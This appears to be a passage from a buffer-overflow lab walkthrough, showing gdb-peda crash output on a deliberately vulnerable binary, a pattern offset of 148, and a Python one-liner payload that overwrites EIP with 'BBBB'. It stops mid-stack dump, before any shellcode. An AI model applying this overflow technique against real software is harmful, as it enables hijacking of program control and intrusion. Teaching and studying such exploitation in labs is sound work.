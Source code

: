     AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x80e32e0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOA\340\062\016", <incomplete sequence \311>)
    EBX: 0x41416d41 ('AmAA')
    ECX: 0x806af40 (<__strncpy_sse2+3584>:  movlpd QWORD PTR [edi],xmm0)
    EDX: 0x0
    ESI: 0x80df000 --> 0x0
    EDI: 0x80481f0 --> 0x0
    EBP: 0x6f414152 ('RAAo')
    ESP: 0xffffd610 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    EIP: 0x41534141 ('AASA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41534141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd610 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0004| 0xffffd614 ("TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0008| 0xffffd618 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0012| 0xffffd61c ("ArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0016| 0xffffd620 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0020| 0xffffd624 ("AAWAAuAAXAAvAAYAAwAAZAAxAAyA\n")
    0024| 0xffffd628 ("AuAAXAAvAAYAAwAAZAAxAAyA\n")
    0028| 0xffffd62c ("XAAvAAYAAwAAZAAxAAyA\n")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41534141 in ?? ()
    gdb-peda$ Quit
    gdb-peda$ pattern_offset 0x41534141
    1095975233 found at offset: 148
    
Ok test

    root@local:~/Desktop/NX# python -c 'print "A"*148+"BBBB"+"C"*50' > payload_0.txtroot@local:~/Desktop/NX# gdb -q ./nx_0
    Reading symbols from ./nx_0...(no debugging symbols found)...done.
    gdb-peda$ r < payload_0.txt
    Starting program: /root/Desktop/NX/nx_0 < payload_0.txt
    This is a big vulnerable example!
    I can print many things: deadbeef, Test String, 42
    Writing to STDOUT
    Reading from STDIN
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x80e32e0 ('A' <repeats 128 times>, "\340\062\016", <incomplete sequence \313>)
    EBX: 0x41414141 ('AAAA')
    ECX: 0x806af60 (<__strncpy_sse2+3616>:  movlpd QWORD PTR [edi],xmm0)
    EDX: 0x0
    ESI: 0x80df000 --> 0x0
    EDI: 0x80481f0 --> 0x0
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd610 ('C' <repeats 50 times>, "\n")
    EIP: 0x42424242 ('BBBB')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x42424242
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd610 ('C' <repeats 50 times>, "\n")
    0004| 0xffffd614 ('C' <repeats 46 times>, "\n")